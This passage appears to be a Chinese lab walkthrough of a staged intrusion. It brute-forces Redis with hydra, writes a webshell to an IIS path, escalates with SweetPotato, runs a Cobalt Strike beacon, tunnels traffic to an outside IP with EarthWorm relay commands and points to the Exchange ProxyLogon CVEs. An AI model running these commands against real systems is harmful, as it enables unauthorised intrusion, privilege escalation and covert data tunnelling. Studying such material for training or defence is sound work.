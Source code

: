 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bl7mOLId5ibQzpDtZphUFpf1fTA5dEWdQNPxlLszFHVpVw0icnVL0TDzA/640?wx_fmt=png)

然后 Proxifier 来代理（攻击机）sockes，通过 redis-cli 连接 redis 服务写 webshell，由于不知道路径就用 IIS 默认路径（c:/inetpub/wwwroot/）进行写 shell。

**知识点一、**kali 环境进行爆破并连接 redis。

hydra-P password.txt redis:// 目标 IP:redis6379

proxychainshydra -P /home/dodgers-k/ 桌面 /1- 弱口令.txt192.168.59.4 redis 6379

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bic1bTQEzkhyeQ1kXlgjiaAicYNwQnKaGS4ibYkGOq0f10VcayRnpkyuvRA/640?wx_fmt=png)

Redis 口令：123456789qq

proxychainssrc/redis-cli -h 192.168.59.4 -a 123456789qq

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bJ95Hrmgc48QFr8XYvl9865UgjUsxoib9BUspngb47D5eLZdThSUba9Q/640?wx_fmt=png)

蚁剑挂代理连接

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bmxPHKBFmRxULUicbqOiaVib79SFxjPhWLicNTL1rs32cFe9p4Iqaad1f6A/640?wx_fmt=png)

**知识点二、****Cobaltstrike** **上线**

利用菜刀把 SweetPotato（甜土豆）/Ladon 上传到 C:/Redis/ 或者 C:/ProgramData/ 目录下

执行提权：SweetPotato.exe-p cs 马子.exe

Cobaltstrike 生成子 beacon

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bfxMKugibgYzUmm6ASbl9lJ3yaBd8BnHr71cEXlibzE649BuSw8sAUbIg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bf0T50dIbMoic86GKSJX0kPvWxAVGtAIaZH9FmiaF9W8reGkgSN3JXAQQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7b6UcJO1tHsYYphnHKdzh0mvuyQvPPOdsNuE2gUEuwkpoqkL4Wh1DmZg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACNcauKRiaEyJsmN49AHgI7bKCia1RrIoN8hFyTRoAABkjP8DnvGFicTEiaZsiasMjMz4rV0fVciackSOaw/640?wx_fmt=png)

老样子注入进程，inject400 x64 tcp

03

  

**第三关：代理出网，拿下邮服**

**192.168.59.4**

```
executeC:\EWhere.exe -s ssocksd -l 9911
192.168.59.133
executeC:\Windows\EWhere.exe -s lcx_slave -d 185.211.35.46 -e 1211 -f192.168.59.4 -g 9911
查看exchenge版本参考：https://www.freebuf.com/articles/web/228681.html
Exp：CVE-2021-26855、26857、26858、27065
```

https://github.com/search?q=CVE-2021-26855%2F26857%2F26858%2F27065
